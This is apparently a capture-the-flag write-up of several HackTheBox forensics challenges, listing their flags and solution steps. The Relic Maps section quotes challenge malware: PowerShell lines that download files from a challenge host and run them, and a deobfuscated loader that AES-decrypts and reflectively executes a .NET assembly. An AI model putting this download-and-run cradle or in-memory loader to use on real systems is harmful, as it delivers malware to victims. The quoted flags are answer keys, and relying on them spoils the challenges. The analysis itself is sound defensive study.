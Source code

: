 # Forensics

## Plaintext Tleasure

As the title says - the flag is in plain text in capture.pcap

> HTB{th3s3_4l13ns_st1ll_us3_HTTP}

## Alien Cradle

View cradle.ps1, `$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'`

> HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}

## Extraterrestrial Persistence

Yet another base64 string.

> HTB{th3s3_4l13nS_4r3_s00000_b4s1c}

## Packet Cyclone

Just run the recommended tool ([chainsaw](https://github.com/WithSecureLabs/chainsaw)) and answer questions based on its output.

## Relic Maps

Download relicmaps.one
I don't have OneNote installed so just ran `strings` on it and found this interesting piece (VBScript in HTML - I guess it was supposed to run when you view the file?):

```powershell
<#snip#>
ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/uploads/soft/topsecret-maps.one -OutFile $env:tmp\tsmap.one; Start-Process -Filepath $env:tmp\tsmap.one"
ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/get/DdAbds/window.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
<#snip#>
```

Download both files. Spent some time investigating topsecret-maps.one contents, extracted PNG with a map - but it turned out to be a red herring.
Next, concentrated on the obfuscated BAT file.
Obfuscation is pretty simple:
first, `set "eFlP=set "` ie `set` command becomes `eFlP`
then a long chain of `%eFlP%"ualBOGvshk=ws"` - `set SOMETHING=....` where `SOMETHING` is a random string and `....` is 4 characters.
Either use search & replace (manual, long process) or script it to deobfuscate the file.

This should produce the following result (some variables renamed for clarity):

```powershell
$Base64Str = "SEWD/RSJz4q <#snip#> ="

$BinaryStream = [System.Convert]::FromBase64String($Base64Str);
$AESDecryptor = New-Object System.Security.Cryptography.AesManaged;
$AESDecryptor.Mode = [System.Security.Cryptography.CipherMode]::CBC;
$AESDecryptor.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
$AESDecryptor.Key = [System.Convert]::FromBase64String('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');
$AESDecryptor.IV = [System.Convert]::FromBase64String('2hn/J717js1MwdbbqMn7Lw==');
$AESDecryptorObject = $AESDecryptor.CreateDecryptor();
$DecryptedBinaryStream = $AESDecryptorObject.TransformFinalBlock($BinaryStream, 0, $BinaryStream.Length);
$AESDecryptorObject.Dispose();
$AESDecryptor.Dispose();

$mNKMr = New-Object System.IO.MemoryStream(, $DecryptedBinaryStream);
$bTMLk = New-Object System.IO.MemoryStream;
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);
$NVPbn.CopyTo($bTMLk);
$NVPbn.Dispose();
$mNKMr.Dispose();
$bTMLk.Dispose();
$DecryptedBinaryStream = $bTMLk.ToArray();
$gDBNO = [System.ReflectionAssembly]::Load($DecryptedBinaryStream);
$PtfdQ = $gDBNO.EntryPoint;
$PtfdQ.Invoke($null, (, [string[]] ('%*')))%
```

Then I modified unobfuscated PowerShell script to dump decrypted buffer contents to a file instead of running it:

```powershell
<#snip#>
$DecryptedBinaryStream = $bTMLk.ToArray();
Set-Content -Path output.file -AsByteStream -Value $EncryptedBinaryStream
```

This produced a .NET dll which I did not bother to reverse engineer since the flag is there in plain text (in UTF-16 encoding):

> HTB{0neN0Te?_iT'5_4_tr4P!}
